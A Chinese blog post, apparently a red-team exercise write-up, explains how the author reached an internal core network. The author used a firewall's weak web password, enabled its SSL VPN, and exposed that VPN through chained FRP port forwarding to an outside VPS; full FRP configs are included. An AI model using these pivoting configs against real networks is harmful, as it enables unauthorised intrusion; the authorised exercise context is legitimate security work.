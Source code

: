 ```yaml
---
permalink: 2022/06/15/connect-Intranet-ssl-vpn
tags:
  - sslvpn
layout: post
date: '2022-06-15 08:00:00'
categories:
  - 网络安全
  - VPN
home_cover: 'https://cdn.jsdelivr.net/gh/handbye/images/picgo2022-06-15-10-30-29.png'
title: 如何连接内网ssl vpn?
---
```


## 背景


在某次HW时，我们在内网发现了一个防火墙web登录弱口令，在登录后查看配置时，发现此防火墙可通内网核心管理网段，拓扑大概如下：


![picgo2022-06-15-11-50-50.png](../post_images/eab55c4dfda131fe36f19cb44974fc1d.png)


此时我们得设法让攻击机能够访问此核心网段。我们想了如下几个方法：

1. 在防火墙上添加到核心网段的路由
2. 做端口映射
3. 启用ssl vpn，将目标网段加到ssl vpn中。

先说下这几种方法的利弊，第一种方法最为简单，但是无法确定目标网段的网关设备在哪，有可能网关设备上没有到攻击机(跳板机)网段的回程路由。第二种方法做端口映射，如果不确定核心网段开放的端口也会很麻烦，且不利于fscan等工具做信息收集。第三种方法最为方便，一旦ssl vpn建立，就相当于攻击机已经处于核心网段之中了，这时候无论是信息收集还是漏洞利用都很方便，但是此防火墙处于内网，如何连接其ssl vpn是个问题。


## socks5代理方式连接失败


当在防火墙上打开ssl vpn后，查看其登录页面如下。


![picgo2022-06-15-13-58-03.png](../post_images/7b94e656130e6a053f8d37e704b971b7.png)


按照其提示我们下载了ssl vpn客户端，并将其加入profile规则中，让其走socks5去连接ssl vpn服务器端。


![picgo2022-06-15-14-17-09.png](../post_images/a49085248b2ccad377544ea506a62454.png)


![picgo2022-06-15-15-26-27.png](../post_images/7f86b88abb66ead913deab8235e486fa.png)


此种方法尝试后发现，sslvpn在认证通过后立马又会掉线，查看连接日志发现是udp协商未通过。


![picgo2022-06-15-15-27-53.png](../post_images/f94089fa02ca1c7b135bb1658447235b.png)


![picgo2022-06-15-15-28-07.png](../post_images/b3e1fd62f6017b1ec17c285b188c2feb.png)


由于socks5代理不支持UDP，所以UDP传输失败导致了ssl vpn无法正常建立。但是不是所有厂家的ssl vpn都不支持socks5代理的方式去连接，例如华为的ssl vpn就可以在其客户端上配置代理去连接。


![picgo2022-06-15-15-34-49.png](../post_images/b3643cc1583c3ee86994ca48c67eba74.png)


所以在实际环境中可以先去尝试使用socks5代理去连接，不成功的话再采取端口转发的方法。


## 端口转发解决问题


上面提到了由于socks5不支持UDP传输导致了ssl vpn建立失败，那我们分析下再其建立过程种UDP协商时使用的端口。


![picgo2022-06-15-16-47-38.png](../post_images/1e887a8fccad0db8886da8d13b0541ca.png)


![picgo2022-06-15-16-47-55.png](../post_images/063ce916ad03a8b249793e5f95b74f91.png)


可以看到使用的是442端口，那么我们就想办法把UDP442端口转发出来。


这次使用的端口转发工具是FRP,其支持tcp，udp的端口转发。


这里就贴一下FRP的配置吧：


公网VPS的 frps.ini


```text
_[common]
bindaddr = 0.0.0.0
bindport = 10991_

```


内网可出网机器 frpc.ini


```text
_[common]
serveraddr = 1.14.47.152
serverport = 10991
[tcp]      
type = tcp 
localport = 8072        
remoteport = 8072
[udp]      
type = udp
localport = 8073         
remoteport = 8073        
[forward1]         
type = tcp
localip = 127.0.0.1    
localport = 8072        
remoteport = 12020
[forward2]         
type = udp
localip = 127.0.0.1    
localport = 8073        
remoteport = 442_

```


内网可出网机器 frps.ini


```text
_[common]
bindaddr = 0.0.0.0
bindport = 21_

```


内网不出网机器 frpc.ini


```text
_[common]
serveraddr = 172.31.32.33  //内网可出网机器的ip
serverport = 21

[tcp]
type = tcp             
remoteport = 8072     
localip = 192.168.254.203 //sslvpn的ip地址
localport = 8081  //sslvpn的http端口

[udp]
type = udp
remoteport = 8073
localip = 192.168.254.203 //sslvpn的ip地址
localport = 442 //sslvpn的udp端口_

```


这样基于可以把ssl vpn的http端口和udp端口全部转发出来了，再攻击机直接连接转发出来的端口即可。


![picgo2022-06-15-17-08-00.png](../post_images/d21175b320bba4700172dcca0da2e295.png)


可以看到vpn已成功建立连接，并分配了网卡。


![picgo2022-06-15-17-08-30.png](../post_images/5e0b810ab89179baeb673210956e2008.png)


![picgo2022-06-15-17-08-47.png](../post_images/0b5dd3aa8c9a38629d14f2fec052435b.png)


这样就可以随意访问核心网段的地址了，ping也是没问题的。


![picgo2022-06-15-17-19-44.png](../post_images/804d4870808bc1fab217f29beb23e945.png)


## 参考


[使用Frp实现无公网地址（家庭宽带）环境下的SSL VPN部署](https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=57000)

